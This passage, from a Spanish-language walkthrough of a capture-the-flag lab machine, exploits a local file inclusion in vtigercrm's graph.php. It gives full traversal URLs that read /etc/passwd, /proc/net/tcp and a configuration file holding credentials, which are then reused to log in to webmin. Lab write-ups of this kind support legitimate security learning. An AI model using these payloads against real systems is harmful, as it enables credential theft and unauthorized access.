 En este caso el fichero `/etc/amportal.conf` lo miramos mas tarde y empezamos primero con enumerar informaciones de la maquina.

Le metemos en firefox la url siguiente: "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action"
y podemos ver el fichero.

Vemos que hay multiples usuarios con una `/bin/bash`

- fanis
- spamfilter
- asterisk
- cyrus
- mysql
- root

Usamos el LFI para enumerar la maquina

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/net/fib_trie%00&module=Accounts&action
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//proc/net/tcp%00&module=Accounts&action
```

El fib_trie no nos muestra nada pero el tcp nos muestra los puertos internos que estan abiertos. Lo copiamos y lo pegamos en un fichero.
Como los puertos estan representado de forma hexadecimal, tenemos que tratar la data.

```bash
cat data.txt | tr ':' ' ' | awk '{print $3}' | sort -u

python3
>>> 0x0016
22
>>> 0x0019
25
>>> 0x0050
80
...
```

En el caso de un LFI ficheros interessantes podrian tambien ser `/proc/shed_debug` y `/proc/shedstat`. En este caso no sirbe pero esta
bien tenerlo en cuenta.

Si miramos el fichero del exploit "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..///etc/amportal.conf%00&module=Accounts&action"
Vemos un fichero de configuracion con credenciales para una base de datos.

Si vamos por el panel de login y probamos usuarios, nos podemos connectar como el usuario admin.

Como tenemos contraseñas, intentamos connectarnos con el usuario admin pero no va.
Intentamos como el usuario root y la misma contraseña y entramos en el panel de configuracion de **webmin**.

> [ ! ] NOTAS: Tito S4vitar nos avanza que se puede ganar accesso al systema desde el dashboard de elastix y tambien del webmin pero aqui tiraremos de otras vias.
